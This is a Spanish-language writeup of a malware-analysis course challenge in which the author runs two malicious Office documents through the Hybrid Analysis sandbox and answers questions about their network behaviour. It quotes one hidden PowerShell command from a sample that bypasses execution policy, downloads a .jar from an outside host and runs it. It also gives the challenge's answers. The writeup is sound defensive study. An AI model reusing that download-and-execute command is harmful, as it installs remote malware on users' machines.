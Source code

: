 ## ¿Qué es una sandbox?
Una sandbox es un entorno virtual seguro donde se ejecutan archivos, aplicaciones o URL maliciosos. Voy a estar utilizando [Hybrid Analysis](https://www.hybrid-analysis.com/) para analizar los siguientes archivos: `PO-465514-180820.doc` y `Siparis_17.xls`.

- Primero subis el archivo:

![image](https://github.com/user-attachments/assets/3343f8ac-0d42-4028-bb5e-453073e56b78)

- Luego seleccionas el Sistema Operativo en el cual sea analizado. En mi caso elegi **Windows 10**:

  ![image](https://github.com/user-attachments/assets/6e1f42bf-d8b2-4d31-8465-4daa563744e2)

- Este seria el resultado:

  ![image](https://github.com/user-attachments/assets/5e7cbb00-8ba6-4a33-9688-ab52fe69877f)

- Para ver todas las acciones que hace el archivo malicioso tenemos que dirigirnos al apartado **Incident Response**.

  ![image](https://github.com/user-attachments/assets/e33eec8b-48d5-4d9d-bdb8-7ef833a606cf)

- **Persistence**: Tecnica utilizada para mantenerse en un sistema incluso despues de reinicios.
- **Fingerprint**: Recolectar información específica sobre un sistema, red o dispositivo.
- **Evasive**: Se utiliza para evitar la detección de antivirus, firewalls o sistemas de detección de intrusos (IDS).
- **Spyware**: Tipo de software malicioso diseñado para espiar las actividades del usuario sin su consentimiento.

En el apartado de **Network Behavior** se ven las direcciones IP que interactuaron con el archivo:

![image](https://github.com/user-attachments/assets/792c553c-6474-4b59-83eb-ea9fd82b6bbf)

Si entramos a la primera direccion IP, podemos ver mucha informacion, como los detalles del archivo, indicadores maliciosos, trafico HTTP, alertas de Suricata y mas...

![image](https://github.com/user-attachments/assets/a357c93a-b3ac-4872-b687-e9cc0161002b)

>- Indicadores maliciosos
>  
> ![image](https://github.com/user-attachments/assets/32d51644-bba6-4000-ab91-f20dc2f9c110)

>- Detalles del Archivo
>  
> ![image](https://github.com/user-attachments/assets/9ed6548e-31f8-4751-afc6-c7a44fb95456)


>- Trafico HTTP
>  
> ![image](https://github.com/user-attachments/assets/c6aad64b-be5c-4254-a01b-2baf0d6d7857)

>- Alertas de Suricata
>  
>  ![image](https://github.com/user-attachments/assets/3605cb46-399f-4a40-80ea-ddcd7e2e5e06)

>- Capturas de Pantalla sobre el archivo abierto
>  
> ![image](https://github.com/user-attachments/assets/f65a3d1e-ea53-4de6-bb73-cdc2edbd52f9)
> ![image](https://github.com/user-attachments/assets/16a6af6e-4d67-4ea9-bf7a-6ec1063eb371)


---


**The file PO-465514-180820.doc is trying to make a request to a domain ending with ".kz". What is this domain?**

En el apartado de **Network Behavior** se ve la conexion que hace con el dominio `www.msbc.kz`.

![image](https://github.com/user-attachments/assets/d2a619a3-b367-4093-83bf-440e08d98b82)

---

**With which Windows tool are the connection requests made? (file:PO-465514-180820.doc)**

Con la herramienta `powershell.exe`.

![image](https://github.com/user-attachments/assets/06140ab1-949a-4fb5-9036-f398e4675876)

---

**How many addresses does the file send DNS requests to? (file:PO-465514-180820.doc)**

`5`

---

**The "Siparis_17.xls" malware document is trying to download a file. With what name does he want to save the file it is trying to download to the device?**

Al analizar el archivo me encontre con un comando muy sospechoso de powershell, el cual era el siguiente:


```
/c powershell -executionpolicy bypass -W Hidden -command "& { (new-object System.Net.WebClient).DownloadFile(\"http://hocoso.mobi\" ,\" %temp%\\6LeGwKmrm.jar\") }" & %temp%\\6LeGwKmrm.jar
```



## Codigo explicado

>```(new-object System.Net.WebClient).DownloadFile:```
>
>- Crea un objeto de tipo WebClient para realizar descargas desde una URL.

> ```DownloadFile("http://hocoso.mobi", "%TEMP%\\6LeGwKmrm.jar"):```
>- Descarga un archivo desde la URL http://hocoso.mobi.

Y por ultimo guarda el archivo descargado en la carpeta temporal del sistema (%TEMP%) con el nombre `6LeGwKmrm.jar`.

Por lo que la respuesta es: `6LeGwKmrm.jar`.

---

- Al finalizar con el ultimo reto del curso me dieron la siguiente Certificacion:

![Screenshot From 2025-01-18 19-08-41](https://github.com/user-attachments/assets/272dfc67-11c6-470d-bc43-44a67f5b4bee)


Espero que hayan aprendido mucho de este Writeup, se vienen mas!









